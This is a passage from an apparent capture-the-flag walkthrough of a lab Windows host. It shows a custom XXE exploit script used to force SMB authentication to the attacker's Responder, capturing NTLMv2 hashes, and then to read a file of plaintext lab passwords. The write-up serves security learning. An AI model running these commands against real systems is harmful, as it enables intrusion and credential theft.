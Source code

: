 
#### Responder

I did try to run `responder` and give it an path to a share on my host. I
think you can run `responder` from Windows, but I failed to pull it off. When
I posted my [lessons learned on Commando](/2019/04/15/commando-vm-
lessons.html#responder), @mcohmi suggested `Inveigh`:

> You should try Inveigh instead of that Windows responder.
>
> — Ohm-I 🚉 PAX West (@mcohmi) [April 16,
> 2019](https://twitter.com/mcohmi/status/1118003243882139648?ref_src=twsrc%5Etfw)

I still need to test that, but since it ended up not being important here,
I’ll just show the Kali `responder` results. The hashes I got were not
helpful:

    
    
    root@kali# python3 mesep_xxe.py 10.10.10.132 //10.10.14.14/share/test.txt
    Error: No data returned
    
    
    
    [SMBv2] NTLMv2-SSP Client   : 10.10.10.132
    [SMBv2] NTLMv2-SSP Username : \iX
    [SMBv2] NTLMv2-SSP Hash     : iX:::918a26cfdd690e81::
    [SMBv2] NTLMv2-SSP Client   : 10.10.10.132
    [SMBv2] NTLMv2-SSP Username : \iX
    [SMBv2] NTLMv2-SSP Hash     : iX:::07d76d4d1f724c69::
    

These hashes are indicative of a SYSTEM account. That’s interesting, as it
means that ME SDP is likely running as SYSTEM, but that I don’t get any hashes
from it to crack.

#### it_logins.txt

In the password audit xlsx document, there was a reference to additional
information located at `C:\Temp\Password Audit\it_logins.txt` on HELPLINE.
I’ll grab that file with the script:

    
    
    PS > python .\mesep_xxe.py 10.10.10.132 "C:\temp\Password Audit\it_logins.txt"
    
    local Windows account created
    
    username: alice
    password: $sys4ops@megabank!
    admin required: no
    
    shadow admin accounts:
    
    mike_adm:Password1
    dr_acc:dr_acc
    

Now I have more passwords to try.

### CVE-2017-11511 - LFI / Arbitrary File Download
